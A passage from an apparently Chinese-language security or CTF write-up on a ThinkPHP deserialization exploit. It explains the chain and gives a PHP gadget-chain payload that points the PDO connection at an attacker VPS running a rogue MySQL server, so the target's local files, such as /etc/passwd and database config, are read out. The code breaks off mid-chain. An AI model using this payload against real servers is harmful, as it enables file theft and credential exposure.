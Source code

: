 www/ThinkPHP/Library/Think/Db/Driver.class.php

![image-20211219170053771](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219170053771.png)

它是拼接了$sql语句，之后执行`$this->execute()`

![image-20211219171035987](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219171035987.png)

它会预先进行`$this->initConnect()`

![image-20211219171103370](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219171103370.png)

![image-20211219171123961](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219171123961.png)

我们可以控制`$config`，控制连接任意数据库

这里可以结合上面的mysql伪服务端任意文件读取了，比如以下的利用流程：

- 通过某处泄露得到目标的WEB目录（如DEBUG页面
- 开启MySQL伪服务端，读取目标的数据库配置文件
- 出发反序列化
- 触发PDO连接部分
- 获取到目标的数据库配置文件

用bettercap做mysql伪服务端读一下/etc/passwd

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true    // 开启才能读取文件
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "",
            "hostname" => "your_vps",
            "hostport" => "port",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
        }
    }
```